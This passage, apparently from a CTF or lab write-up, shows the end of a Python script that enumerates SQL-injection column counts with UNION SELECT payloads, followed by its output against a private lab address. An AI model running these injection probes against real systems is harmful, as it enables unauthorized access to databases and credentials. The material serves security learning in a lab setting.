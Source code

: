 ```python

        # Submit to vulnerable text box
        box_data = {
            "text_box": "sqli_test"
        }
        response = session.post(login_url, data=box_data)

        if response.status_code == 200:
            print(f"\n{Fore.GREEN}[✔] SUCCESS! Column count is likely: {col_count}")
            print(f"{Fore.CYAN}[+] Working payload: {Fore.MAGENTA}{payload}")
            print(f"{Fore.CYAN}[+] Login credentials:")
            print(f"    {Fore.YELLOW}Username: {payload}")
            print(f"    {Fore.YELLOW}Password: password123\n")
            break
        else:
            print(f"{Fore.RED}[-] Column count {col_count} failed (status: {response.status_code})\n")

def banner():
    print(f"""{Fore.LIGHTBLUE_EX}
    ╔══════════════════════════════════════╗
    ║  SQLi Column Count Enumerator    	   ║
    ║  Author: smooth                      ║
    ╚══════════════════════════════════════╝
    """)

if __name__ == "__main__":
    try:
        banner()
        target_url = sys.argv[1].rstrip("/")
        find_column(target_url)
    except IndexError:
        print(f"{Fore.RED}Usage: python3 enumerate_sqli.py http://<target>")
```

If you don't have `colorama`, install it with:

```
# This is totally optional, its just for colors, you can use an ai to remove the colors if you don't want to install colorama:

pip3 install colorama
```

Once we use the script, we find the amount of columns this database has:

```python
python3 enumerate_sqli.py 'http://10.201.101.141:8000/'

    ╔══════════════════════════════════════╗
    ║  SQLi Column Count Enumerator        ║
    ║  Author: smooth                      ║
    ╚══════════════════════════════════════╝
    
[*] Starting column count enumeration via SQLi on: http://10.201.101.141:8000

[+] Testing column count: 1 with payload: ' UNION SELECT 1-- -
[-] Column count 1 failed (status: 500)

[+] Testing column count: 2 with payload: ' UNION SELECT 1,2-- -
[-] Column count 2 failed (status: 500)

[+] Testing column count: 3 with payload: ' UNION SELECT 1,2,3-- -
[-] Column count 3 failed (status: 500)

```